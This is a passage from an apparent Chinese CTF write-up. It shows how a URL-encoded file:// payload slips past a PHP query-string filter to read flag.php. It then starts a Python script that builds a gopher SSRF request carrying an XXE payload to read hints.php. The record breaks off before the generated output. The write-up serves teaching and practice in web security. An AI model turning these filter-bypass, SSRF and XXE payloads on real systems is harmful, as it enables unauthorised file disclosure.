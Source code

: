 但是赋值给url的时候是$_GET

```
foreach($_GET as $key=>$value) {
 $url=$value; 
}
```

谜底揭晓：

![img](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210120171610.png)

原理是$_SERVER["QUERY_STRING"]和$_GET两个超全局变量储存数据方式不同，并不是一些师傅说的二次解码的问题

换句话说，我们想要用 `file://var/www/html/flag.php` 来读取flag的话，他的filter是会过滤我们；

但是我们只要把这句payloadURL编码（英文字母也可以URL编码，格式为%+字符的16进制，详见[菜鸟教程](https://www.runoob.com/tags/html-urlencode.html)）

payload：

```
?a=xxx&b=xxx&c=%66%69%6c%65%3a%2f%2f%2f%76%61%72%2f%77%77%77%2f%68%74%6d%6c%2f%66%6c%61%67%2e%70%68%70
```

查看源码就有flag；

说到这里，其实也不算非预期了；

 

#### gopher协议SSRF利用XXE读取flag.php

这个方法比较麻烦一点，而且还可能会走偏（走偏选手已经哭晕在厕所）

生成POST数据流的exp：

```
#python3
#wh1sper
from urllib.parse import quote
 
stream = """POST /xxe.php HTTP/1.1
Host: 121.36.64.91
Content-Type: application/x-www-form-urlencoded
Content-Length: 225
Upgrade-Insecure-Requests: 1
 
data=%3C%3Fxml%20version%20%3D%20%221.0%22%3F%3E%0A%3C!DOCTYPE%20ANY%20%5B%0A%20%20%20%20%3C!ENTITY%20f%20SYSTEM%20%22php%3A%2F%2Ffilter%2Fconvert.base64-encode%2Fresource%3Dhints.php%22%3E%0A%5D%3E%0A%3Cx%3E%26f%3B%3C%2Fx%3E
""".replace("\n", "\r\n")#data需要先URL编码一次
print(quote(stream))
```

生成：

 
